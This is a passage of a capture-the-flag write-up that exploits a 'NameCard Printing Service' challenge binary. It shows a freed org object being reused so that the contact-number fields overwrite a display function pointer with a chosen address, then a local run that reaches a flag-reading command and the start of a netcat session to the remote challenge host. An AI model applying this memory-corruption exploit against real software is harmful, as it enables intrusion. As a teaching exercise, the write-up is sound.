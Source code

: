```
Name (max 23 chars): 1234
Age: 4096
Personal Contact Number: 8192
Business Contact Number: 12288
> 4
Org ID (0-127): 0
Person ID (0-127): 0

Program received signal SIGSEGV, Segmentation fault.
0x0000300000002000 in ?? ()

```

It appears that `personal_num` and `business_num` are the fields of interest (0x3000 upper 4 bytes, 0x2000 lower 4 bytes). Set `personal_num` to 4199030(=0x401276) to overwrite `display`. `business_num` should be 0. The other fields are irrelevant.

```
NameCard Printing Service v0.1
---------------------
1. New person
2. New org
3. Delete org
4. Print name card
5. Exit
---------------------
> 2
ID (0-127): 0
Name (max 23 chars): 1234
Style (1-3): 1
> 3
ID (0-127): 0
Deleted org 0.
> 1
ID (0-127): 1234
Invalid ID
ID (0-127): 0
Name (max 23 chars): 1234
Age: 4444
Personal Contact Number: 4199030
Business Contact Number: 0
> 4
Org ID (0-127): 0
Person ID (0-127): 0
[Detaching after vfork from child process 199420]
cat: ./flag.txt: No such file or directory
```

It appears the exploit works locally! Time to try it on the remote endpoint.

```
nc challs.nusgreyhats.org 10525
NameCard Printing Service v0.1
---------------------
1. New person
2. New org
3. Delete org
4. Print name card
5. Exit
---------------------
> 2
ID (0-127): 0
Name (max 23 chars): asd
Style (1-3): 1
> 3
```